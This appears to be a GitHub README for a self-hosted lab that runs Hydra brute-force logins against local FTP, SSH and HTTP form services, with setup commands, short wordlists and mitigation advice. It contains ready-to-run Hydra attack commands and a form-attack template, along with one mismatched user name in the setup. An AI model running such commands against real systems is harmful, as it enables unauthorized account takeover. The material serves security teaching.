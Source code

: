 # 💥 Hydra Brute Force Attack Lab

## 🧪 Project Overview

This lab demonstrates how attackers exploit weak password configurations through brute-force attacks using **Hydra**, a powerful login cracker. It simulates real-world penetration testing on FTP, SSH, and HTTP login forms.

---

## 🎯 Key Objectives

* Understand brute force methodology
* Use Hydra to automate login attempts
* Target services with weak/default credentials
* Analyze results and recommend mitigation

---

## 🛠️ Tools & Environment

| Tool           | Purpose                |
| -------------- | ---------------------- |
| Kali Linux     | Attacking machine      |
| Hydra          | Brute force automation |
| vsftpd         | FTP server             |
| openssh-server | SSH server             |

---

## ⚙️ Step 1 – Environment Setup

### 🔧 A. Install Hydra


sudo apt update

sudo apt install hydra -y


### 📡 B. Setup Target Services

#### FTP Server (vsftpd)


sudo apt install vsftpd -y

sudo useradd -m testuser

sudo passwd test

sudo nano /etc/vsftpd.conf


Ensure the following settings:


local_enable=YES

write_enable=YES

chroot_local_user=YES

allow_writeable_chroot=YES

anonymous_enable=NO


Then restart:


sudo systemctl restart vsftpd


#### SSH Server


sudo apt install openssh-server -y

sudo systemctl start ssh

sudo systemctl enable ssh


---

## 📂 Step 2 – Prepare Wordlists

### 🔑 Password List `passwords.txt`


123456

password

admin

test


### 👤 User List `users.txt`


testuser

admin

root


---

## 🚀 Step 3 – Execute Hydra Brute Force

### 🧬 FTP Login


hydra -l testuser -P passwords.txt ftp://127.0.0.1


### 🛡 SSH Login


hydra -l testuser -P passwords.txt ssh://127.0.0.1


### 🌐 HTTP Login (POST form)


hydra -l testuser -P passwords.txt 127.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"


Replace `/login`, `username`, `password`, and `incorrect` using browser dev tools or Burp Suite to match the form.

---

## 📊 Step 4 – Interpreting Results

Hydra outputs valid credentials in real time. Log success/failure, analyze login behavior, and determine if rate-limiting or lockout mechanisms are absent.

---

## 🔒 Recommendations & Mitigation

* Enforce **strong passwords** (12+ characters)
* Enable **account lockouts** after failed attempts
* Use **rate-limiting** and **2FA**
* Employ intrusion detection/prevention tools (e.g. Fail2Ban)

---

## ✅ Conclusion

This lab illustrates how weak credentials are easily exploited. Brute-force testing is a critical part of ethical hacking and red team exercises. Applying password policies and security controls dramatically reduces exposure.

> "Security is proactive. If you don't test it, attackers will."

---


## 🏷 Badges

![Hydra](https://img.shields.io/badge/Tool-Hydra-blue)
![Kali Linux](https://img.shields.io/badge/OS-Kali_Linux-red)
![Penetration Testing](https://img.shields.io/badge/Focus-Penetration_Testing-yellow)
![Brute Force](https://img.shields.io/badge/Technique-Brute_Force-orange)

---

